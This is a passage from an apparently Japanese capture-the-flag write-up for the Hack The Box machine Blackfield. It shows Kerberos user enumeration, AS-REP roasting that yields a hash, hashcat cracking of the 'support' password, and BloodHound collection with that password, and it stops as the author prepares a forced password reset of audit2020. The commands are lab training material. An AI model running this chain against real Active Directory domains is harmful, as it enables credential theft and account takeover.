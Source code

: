 ```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ kerbrute userenum -v --dc 10.10.10.192 -d BLACKFIELD.local users.txt             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

...
2022/10/28 13:46:02 >  [+] VALID USERNAME:	 audit2020@BLACKFIELD.local
...
2022/10/28 13:48:38 >  [+] VALID USERNAME:	 support@BLACKFIELD.local
...
2022/10/28 13:48:44 >  [+] VALID USERNAME:	 svc_backup@BLACKFIELD.local
```

この三人の名前をvalid_users.txtとして保存する。

そのユーザリストを使ってGetNPUsers.pyを実行する：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ impacket-GetNPUsers BLACKFIELD.local/ -no-pass -dc-ip 10.10.10.192 -usersfile valid_users.txt 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:953f9fcfb82c8ed65373a86861b8a7d6$006dd8c5f10c903610330d00c92c47cd3fb61c0966447d13c48011d6f40de4b8c5584a9be9b5c0e593f32d650665628ba1327550fb08b32e8c4fb3e64f50e7715a6bed96560cc4a44460f2bd891a673dd82bb082cf5447d4c320f9a8af2309c560ccd442f954275eb26902c18ead4f48c47a4f6e92d009357df9ea2a72e6c4f62e4f4e67a2606be502d7add27d6547c2d2463e2bbaf42a021ea80b731167be74c08abea059dfdb1eff1d5382b6d4e5604872b532a02af341b046ebf78ca96b4191393282441d54e12ed6abff47c4ae578c9d74d16ab0546799159d98188998154e278e1f63f3dcff0f8e80b869361f01796d18e1
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```
ユーザsupportのハッシュが得られたので、これをhashというファイル名で保存してクラックする：

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$support@BLACKFIELD.LOCAL:95...18e1:#00^BlackKnight
```
supportのクリデンシャルを使ってbloodhoundを実行する。

```
┌──(shoebill㉿shoebill)-[~/Blackfield_10.10.10.192]
└─$ bloodhound-python -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```

![hound-1](https://user-images.githubusercontent.com/85237728/198561622-a9cc4ee3-d39c-4b3c-bdee-154184de7fe7.png)

supportはaudit2020のパスワードを設定することができると判明（audit2020の現在のパスワードを知らなくても変更可能）。

そこで、audit2020のパスワードをPassw0rd2020に設定する：
